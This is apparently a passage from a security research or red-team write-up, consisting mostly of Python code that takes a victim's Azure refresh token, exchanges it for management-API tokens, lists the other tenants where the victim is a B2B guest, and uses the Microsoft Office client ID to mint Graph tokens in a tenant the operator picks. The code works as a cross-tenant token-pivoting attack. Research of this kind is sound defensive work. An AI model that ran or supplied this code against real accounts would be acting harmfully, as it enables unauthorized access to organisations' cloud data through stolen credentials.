 ```python
def check_tenants_api(access_token: str) -> List[Dict[str, Any]]:
    url = 'https://management.azure.com/tenants?api-version=2020-01-01'
    headers = {
        'Content-Type': 'application/json',
        'Authorization': f'Bearer {access_token}'
    }
    return requests.get(url, headers=headers).json().get('value')


azure_cli_bearer_tokens_for_azure_mgmt_api = (
    azure_cli_client.acquire_token_by_refresh_token( 
        new_azure_cli_bearer_tokens_for_graph_api.get(
            "refresh_token" 
        ),
        scopes=[
            "https://management.core.windows.net/user_impersonation" 
        ],  
    )
)

other_tenants = check_tenants_api(
    azure_cli_bearer_tokens_for_azure_mgmt_api.get('access_token')
)

pprint(other_tenants)

```

If the victim user is a B2B guest in another tenant, it should appear in the results. Pick a desired tenant ID, then run the following:

```python
tenant_b = input("Provide a tenant ID: ")

microsoft_office_client_tenant_b = msal.PublicClientApplication(
    "d3590ed6-52b3-4102-aeff-aad2292ab01c",
    authority=f"https://login.microsoftonline.com/{tenant_b}"
)

microsoft_office_tenant_b_bearer_tokens_for_graph_api = (
    microsoft_office_client_tenant_b.acquire_token_by_refresh_token(
        azure_cli_bearer_tokens_for_azure_mgmt_api.get("refresh_token"),
        scopes=["https://graph.microsoft.com/.default"],
    )
)

pprint(microsoft_office_tenant_b_bearer_tokens_for_graph_api)

check_my_oauth2PermissionGrants(
    microsoft_office_tenant_b_bearer_tokens_for_graph_api.get("access_token")
)

```
